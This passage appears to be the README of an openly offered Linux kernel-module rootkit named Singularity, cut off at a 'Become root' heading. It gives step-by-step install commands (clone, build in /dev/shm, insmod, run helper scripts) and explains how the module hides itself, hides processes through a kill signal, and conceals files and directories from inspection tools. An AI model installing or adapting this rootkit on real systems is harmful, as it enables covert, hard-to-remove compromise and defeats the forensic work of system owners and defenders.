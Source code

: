 # Singularity - Powerful Linux Kernel Rootkit

<img src="https://i.imgur.com/n3U5fsP.jpeg" alt="imgur" width="600"/>


> *"Shall we give forensics a little work?"*  


**Singularity** is a Linux Kernel Module (LKM) rootkit for modern kernels (6x).

Full detailed article: https://blog.kyntra.io/Singularity-A-final-boss-linux-kernel-rootkit

---

## Install

NOTE: There is no feature to make the module visible again, so once it is loaded, it will be hidden automatically and there is no way to remove it other than restarting the machine (if you have not enabled persistence after reboot).


```
cd /dev/shm
git clone https://github.com/MatheuZSecurity/Singularity
cd Singularity
make
sudo insmod singularity.ko
sudo bash scripts/journal.sh
sudo bash scripts/x.sh
cd ..
```

## Usage features

### Hiding process

To hide any process you can use `kill -59 PID`, and it will hide from `/proc/`, `ps`, `top`, and any process viewer, it will also be hidden from commands like `stat` and `ls`.

<p align="center">
<img src="https://i.imgur.com/wX2g459.png">
</p align="center">

### Hiding directory / files

To hide any directory or file, you can edit or view the file at `include/hiding_directory_def.h` and create a directory or file with its name, for example using `singularity`.

<p align="center">
<img src="https://i.imgur.com/a8eb6KS.png">
</p align="center">

### Become root
